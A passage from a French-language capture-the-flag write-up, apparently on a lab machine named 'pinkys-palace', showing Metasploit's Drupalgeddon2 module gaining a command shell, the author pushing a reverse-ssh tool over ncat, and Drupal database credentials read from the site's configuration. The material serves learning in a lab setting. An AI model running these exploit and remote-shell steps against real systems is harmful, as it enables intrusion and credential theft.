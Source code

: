 ```
   LPORT  4444             yes       The listen port
   RHOST  192.168.56.186   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Started bind TCP handler against 192.168.56.186:4444
[*] Command shell session 1 opened (192.168.56.79:35133 -> 192.168.56.186:4444) at 2023-04-19 17:07:22 +0200

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686 GNU/Linux
```

J'ai ensuite rapatrié un [Fahrj/reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh). Pour ce faire je suis passé par le ncat qui était présent sur le système (écoute sur la VM et envoi depuis ma machine).

Malgré son nom, cet outil permet aussi d'écouter sur un port (par défaut le 31337) et agit comme un serveur SSH classique pour lequel le mot de passe est `letmeinbrudipls`.

Une fois mon accès récupéré je trouve les identifiants de l'accès SQL :

```php
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'dpink',
      'password' => 'drupink',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
